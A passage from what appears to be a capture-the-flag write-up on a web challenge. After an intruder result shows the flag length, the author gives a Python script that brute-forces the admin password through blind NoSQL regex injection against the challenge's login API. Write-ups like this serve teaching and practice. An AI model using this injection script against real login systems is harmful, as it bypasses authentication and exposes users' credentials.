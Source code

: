 And the result shows that the length within the brackets is 45:

![intruder result](goose-intruder-length-found.png)

Next, to brute-force the password, I created a script:

```python
import string
import requests

charset = string.ascii_lowercase + '_' + string.digits + string.ascii_uppercase

proxies = {'http': 'http://127.0.0.1:8080'} 

f = ""
for i in range(44,-1,-1):
	for c in charset:
		args = {'username':'admin', 'password[$regex]':r'^CHTB\{%s.{%i}\}$' %(f+c, i), 'password[$options]':'i'}
		r = requests.post('http://138.68.172.124:30229/api/login', data=args, proxies=proxies)
		if r.json()['logged'] == 1:
			f += c
			print(f)
			break

```
